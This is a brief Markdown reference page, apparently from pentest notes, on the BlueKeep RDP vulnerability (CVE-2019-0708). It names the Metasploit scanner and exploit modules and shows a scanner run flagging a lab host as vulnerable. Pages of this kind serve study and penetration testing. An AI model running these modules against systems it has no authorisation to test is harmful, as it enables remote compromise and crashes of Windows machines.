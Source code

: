 ```yaml
---
title : "CVE-2019-0708"
# pre : ' '
description : "Remote Desktop Services Remote Code Execution Vulnerability."
date : 2020-03-23T12:07:45+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2019-0708 - BlueKeep RDP Remote Windows Kernel Use After Free

The exploit will cause bluescreen by default.

### Scanner

```plain
msf5 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

### Exploit

```plain
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

## Examples

### Scanner example

```plain
msf5 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf5 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set rhosts 10.10.10.16
msf5 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run

[+] 10.10.10.16:3389      - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 10.10.10.16:3389      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## URL List

* [nvd.gist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)
* [Pentest-tools.com](https://pentest-tools.com/blog/bluekeep-exploit-metasploit/)
